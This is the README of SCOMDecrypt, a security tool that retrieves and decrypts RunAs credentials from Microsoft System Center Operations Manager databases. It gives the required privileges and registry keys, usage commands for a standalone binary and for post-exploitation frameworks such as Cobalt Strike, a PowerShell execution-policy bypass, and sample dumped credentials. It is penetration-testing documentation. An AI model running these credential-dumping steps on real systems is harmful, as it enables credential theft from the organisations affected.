 # SCOMDecrypt - SCOM Credential Decryption Tool#

Released as open source by NCC Group Plc - http://www.nccgroup.trust/

Developed by Richard Warren, richard [dot] warren [at] nccgroup [dot] trust

http://www.github.com/nccgroup/SCOMDecrypt

Released under AGPL, see LICENSE for more information

## Introduction ##

This tool is designed to retrieve and decrypt RunAs credentials stored within Microsoft System Center Operations Manager (SCOM) databases.

For background, please see the NCC Group blog post [here](https://medium.com/keylogged)

## Pre-requisites ##

To run the tool you will require administrative privileges on the SCOM server. You will also need to ensure that you have read access to the following registry key:

    HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\System Center\2010\Common\MOMBins

You can check manually that you can see the database by gathering the connection details from the following keys:

    HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\System Center\2010\Common\Database\DatabaseServerName
    HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\System Center\2010\Common\Database\DatabaseName

## Usage ##

The tool comes in two formats.The first is a C# binary which can simply be run on the SCOM server with no arguments as following:

    .\SCOMDecrypt.exe
    [+] <SCXUser><UserId>bob</UserId><Elev>sudo</Elev></SCXUser>:H a c k T h e P l a n e t
    [+] administrator:W i n t e r 2 0 1 5 !
    [+] alice:P a s s w 0 r d 1 2 3 !

There is also a PowerShell version of the tool too. This is useful in a post-exploitation scenario for use with tools such as Cobalt Strike or Empire. To use the tool with Cobalt Strike:

    powershell-import C:\path\to\SCOMDecrypt.ps1
    powershell Invoke-SCOMDecrypt
    [+] <SCXUser><UserId>bob</UserId><Elev>sudo</Elev></SCXUser>:H a c k T h e P l a n e t
    [+] administrator:W i n t e r 2 0 1 5 !
    [+] alice:P a s s w 0 r d 1 2 3 !

To run within the PowerShell console:

    powershell.exe -exec bypass
    . .\Invoke-SCOMDecrypt.ps1
    Invoke-SCOMDecrypt
    ...